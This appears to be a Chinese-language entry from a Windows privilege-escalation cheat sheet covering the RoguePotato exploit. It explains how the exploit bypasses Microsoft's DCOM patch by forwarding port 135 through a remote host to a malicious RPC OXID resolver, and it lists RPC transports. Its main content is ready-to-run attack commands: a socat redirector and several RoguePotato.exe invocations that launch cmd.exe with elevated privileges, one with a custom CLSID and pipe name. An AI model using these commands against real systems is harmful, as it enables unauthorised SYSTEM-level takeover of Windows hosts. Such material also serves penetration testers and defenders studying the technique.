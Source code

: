 ### RoguePotato

- https://github.com/antonioCoco/RoguePotato

利用了命名管道,微软修补后，高版本` Windows DCOM` 解析器不允许`OBJREF`中的`DUALSTRINGARRAY`字段指定端口号。为了绕过这个限制并能做本地令牌协商，作者在一台远程主机上的`135`端口做流量转发，将其转回受害者本机端口，并写了一个恶意`RPC OXID`解析器

**RPC支持的协议**
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/472083a9-56f1-4d81-a208-d18aef68c101

|RPC transport	|RPC protocol sequence string|
|-|-|
|SMB	|ncacn_np (see section 2.1.1.2)
|TCP/IP (both IPv4 and IPv6)	|ncacn_ip_tcp (see section 2.1.1.1)
|UDP	|ncadg_ip_udp (see section 2.1.2.1)
|SPX	|ncacn_spx (see section 2.1.1.3)
|IPX	|ncadg_ipx (see section 2.1.2.2)
|NetBIOS over IPX	|ncacn_nb_ipx (see section 2.1.1.4)
|NetBIOS over TCP	|ncacn_nb_tcp (see section 2.1.1.5)
|NetBIOS over NetBEUI	|ncacn_nb_nb (see section 2.1.1.6)
|AppleTalk	|ncacn_at_dsp (see section 2.1.1.7)
|RPC over HTTP	|ncacn_http (see section 2.1.1.8)

**利用代码：**

```bash
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

**示例**
